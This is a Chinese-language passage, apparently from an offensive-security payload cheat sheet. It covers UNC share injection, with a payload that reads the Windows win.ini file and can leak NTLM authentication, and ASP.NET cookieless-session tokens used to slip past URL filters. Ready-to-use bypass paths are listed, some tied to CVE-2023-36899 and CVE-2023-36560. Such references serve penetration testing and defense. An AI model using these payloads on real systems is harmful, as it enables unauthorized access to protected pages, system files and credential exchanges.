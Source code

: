 ### UNC 共享

UNC（通用命名约定）共享是一种标准格式，用于以平台无关的方式指定网络上资源的位置，例如共享文件、目录或设备。它在 Windows 环境中常用，但也被其他操作系统支持。

攻击者可以注入一个 **Windows** UNC 共享 (`\\UNC\share\name`) 到软件系统中，从而潜在地将访问重定向到非预期位置或任意文件。

```powershell
\\localhost\c$\windows\win.ini
```

此外，机器可能还会对该远程共享进行身份验证，从而发送 NTLM 交换。

### ASP.NET Cookieless

当启用 Cookieless 会话状态时，ASP.NET 不依赖于 cookie 来标识会话，而是通过将会话 ID 直接嵌入到 URL 中来修改 URL。

例如，典型的 URL 可能从：`http://example.com/page.aspx` 转换为类似于：`http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`。括号内的值 `(S(...))` 是会话 ID。

| .NET 版本   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |

我们可以利用这种行为来绕过过滤的 URL。

* 如果你的应用程序在主目录中

    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```

* 如果你的应用程序在一个子目录中

    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```

| CVE            | 负载                                        |
| -------------- | ---------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  |
| -              | /WebForm/(S(X))/b/(S(X))in/target2.aspx        |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/ |
| -              | /WebForm/b/(S(X))in/target2.aspx/(S(X))/       |
